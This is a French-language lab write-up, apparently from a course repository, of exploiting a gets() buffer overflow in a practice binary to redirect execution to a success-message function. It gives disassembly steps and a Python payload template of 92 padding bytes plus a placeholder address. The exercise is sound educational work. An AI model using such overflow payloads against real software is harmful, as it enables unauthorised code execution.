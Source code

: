 # Exercice 3 - Exploitation d'un Débordement de Tampon

## Objectif
Le but de cet exercice était d'exploiter une vulnérabilité de débordement de tampon pour modifier le flux d'exécution du programme et afficher le message "code flow successfully changed".

## Analyse
1. Le binaire était vulnérable à une attaque par débordement de tampon en raison de l'utilisation de la fonction non sécurisée `gets()`.
2. En désassemblant le binaire, nous avons découvert que le programme vérifie une valeur sur la pile et l'appelle comme une fonction si elle est non nulle.

## Processus d'Exploitation

1. **Désassembler le binaire :**
   ```
   objdump -d ./bin > desassemble.txt
   ```

2. **Analyser la fonction principale :**
   ```
   grep -A 30 '<main>:' desassemble.txt
   ```
   Cela a révélé la disposition de la pile et l'appel vulnérable à `gets()`.

3. **Trouver le message de succès :**
   ```
   strings ./bin | grep "flow"
   ```
   Cela a confirmé la présence du message "code flow successfully changed".

4. **Déterminer la taille du tampon :**
   À partir du désassemblage, nous avons déduit que la taille du tampon était de 92 octets.

5. **Élaborer l'exploit :**
   Nous avons créé une commande Python pour générer notre charge utile :
   ```
   python -c "print 'A'*92 + '\xXX\xXX\xXX\xXX'"
   ```
   Où `\xXX\xXX\xXX\xXX` est l'adresse de la fonction qui affiche le message de succès.

6. **Trouver l'adresse de la fonction cible :**
   Nous avons utilisé objdump pour trouver l'adresse de la fonction qui affiche le message de succès :
   ```
   objdump -d ./bin | grep -B 5 -A 5 "flow"
   ```

## Leçons Apprises
1. Les dangers de l'utilisation de fonctions non sécurisées comme `gets()`.
2. L'importance d'une validation appropriée des entrées et de la vérification de la taille des tampons.
3. Comment la disposition de la pile peut être exploitée dans les attaques par débordement de tampon.
4. L'utilité des outils comme `objdump` et `strings` dans l'analyse binaire.

## Considérations Éthiques
Cet exercice est uniquement à des fins éducatives. Obtenez toujours une autorisation explicite avant de tenter d'exploiter des vulnérabilités sur un système que vous ne possédez pas.
